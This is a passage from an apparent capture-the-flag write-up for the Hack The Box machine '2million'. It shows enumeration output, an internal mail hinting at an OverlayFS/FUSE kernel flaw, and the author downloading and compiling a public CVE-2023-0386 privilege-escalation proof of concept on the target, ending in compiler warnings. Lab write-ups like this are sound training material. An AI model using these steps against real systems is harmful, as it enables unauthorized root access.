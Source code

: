 ```
...
╔══════════╣ Searching installed mail applications

╔══════════╣ Mails (limit 50)
      271      4 -rw-r--r--   1 admin    admin         540 Jun  2  2023 /var/mail/admin
      271      4 -rw-r--r--   1 admin    admin         540 Jun  2  2023 /var/spool/mail/admin
...
```

Reading `/var/mail/admin` gives us an email:

```
$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

So there's some kernel exploits! Looking for OverlayFS / FUSE CVE PoC finds [CVE-2023-0386](https://github.com/sxlmnwb/CVE-2023-0386).

I downloaded the repo, put it all in a ZIP and downloaded the zip from a python webserver to the box.

Once unzipped I ran `make all` to construct the exploit:

```
$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
```